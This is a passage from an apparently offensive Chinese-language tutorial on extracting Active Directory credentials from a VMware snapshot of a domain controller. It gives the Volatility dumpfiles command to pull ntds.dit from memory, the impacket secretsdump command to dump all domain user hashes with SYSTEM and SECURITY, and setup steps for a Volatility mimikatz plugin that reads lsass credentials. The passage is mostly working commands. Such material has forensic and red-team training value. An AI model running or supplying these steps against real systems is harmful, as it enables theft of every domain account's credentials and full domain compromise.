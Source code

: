 输出：

```
0x000000007eff8c20     16      0 R--rw- \Device\HarddiskVolume2\Windows\System32\ntds.dit
```

提取ntds.dit文件，命令如下：

```
./volatility_2.6_lin64_standalone -f "./vmfs/volumes/62a735a8-ad916179-40dd-000c296a0829/DC1/DC1-Snapshot1.vmem" --profile="Win2016x64_14393" dumpfiles -Q 0x000000007eff8c20 --name file -D /tmp/
```

依次再提取出SYSTEM文件和SECURITY文件，导出所有域用户hash可以使用[secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py)，命令为：`secretsdump -system SYSTEM -security SECURITY -ntds ntds.dit local`

#### (7)加载mimikatz插件，读取lsass进程中保存的凭据

volatility_2.6_lin64_standalone不支持加载mimikatz插件，这里可以选择将整个快照文件(DC1-Snapshot1.vmem)下载至本地，搭建volatility环境，加载mimikatz插件

kali安装volatility的方法：

1. 安装

```
apt-get install pcregrep libpcre++-dev python2-dev python-pip -y
pip2 install pycrypto
pip2 install distorm3
git clone https://github.com/volatilityfoundation/volatility.git
cd volatility
python2 setup.py install
```

2. 测试volatility

```
python2 vol.py -h
```

3. 添加mimikatz插件

下载地址：https://github.com/volatilityfoundation/community/blob/master/FrancescoPicasso/mimikatz.py

将mimikatz.py保存至`<volatility>/volatility/plugins/`

4. 安装mimikatz插件的依赖

```
pip2 install construct==2.5.5-reupload
```

这里不能直接使用`pip2 install construct`，construct版本过高会导致在加载mimikatz.py时报错`AttributeError: 'module' object has no attribute 'ULInt32'`

5. 测试插件

```
python2 vol.py --info | grep mimikatz
```
